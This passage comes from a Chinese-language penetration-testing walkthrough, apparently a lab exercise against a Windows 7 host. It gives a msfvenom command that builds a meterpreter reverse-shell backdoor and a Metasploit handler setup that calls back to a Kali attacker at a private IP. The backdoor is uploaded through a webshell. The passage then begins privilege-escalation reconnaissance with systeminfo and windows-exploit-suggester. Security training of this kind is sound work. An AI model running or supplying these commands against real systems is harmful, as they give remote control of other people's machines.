 为了更好地渗透，我们用**msfvenom**做一个后门，将这个`shell`反弹到`msf`上面，进行利用

这个IP和端口，我们填入Kali的IP地址端口

```
msfvenom -a x64 -p windows/x64/meterpreter_reverse_tcp lhost=192.168.248.129 lport=4444 -f exe X > win7_shell.exe
```

生成`python`反弹`shell`到`msf`马，通过蚁剑上传，虚拟终端执行，`kali`监听，成功反弹到`msf`上

启动Msfconsole，设置监听模块

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.248.129
set LPORT 4444
run
```

![image-20210323140059606](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210323140059606.png)





## 权限提升

**首先查看自己的权限情况**

![image-20210323140430738](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210323140430738.png)

**查看端口情况**

```
netstat -ano
```

![image-20210323140628380](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210323140628380.png)

### 系统信息查询漏洞

查询系统信息，拿去对比漏洞库，保存为123.txt

```
systeminfo
systeminfo > 123.txt
```

首先在kali上运行脚本获得最新的漏洞库

```
./windows-exploit-suggester.py --update
```

把获得的目标安装补丁列表保存进当前目录下

脚本对比出目标系统漏洞
